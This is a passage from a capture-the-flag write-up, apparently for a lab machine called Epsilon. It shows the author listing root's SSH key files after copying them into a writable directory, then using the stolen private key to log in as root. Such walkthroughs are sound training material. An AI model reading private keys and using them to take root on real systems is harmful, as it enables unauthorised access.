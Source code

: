 I can also grab root’s SSH keys:

```

tom@epsilon:/dev/shm/opt/backups/checksum/.ssh$ ls -l
total 12
-rw------- 1 tom tom  566 Dec  1 13:08 authorized_keys
-rw------- 1 tom tom 2602 Dec  1 13:07 id_rsa
-rw-r--r-- 1 tom tom  566 Dec  1 13:07 id_rsa.pub

```

With that `id_rsa` on my system, I can connect over SSH as root:

```

oxdf@hacky$ ssh -i ~/keys/epsilon-root root@10.10.11.134
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-97-generic x86_64)
...[snip]...
root@epsilon:~#

```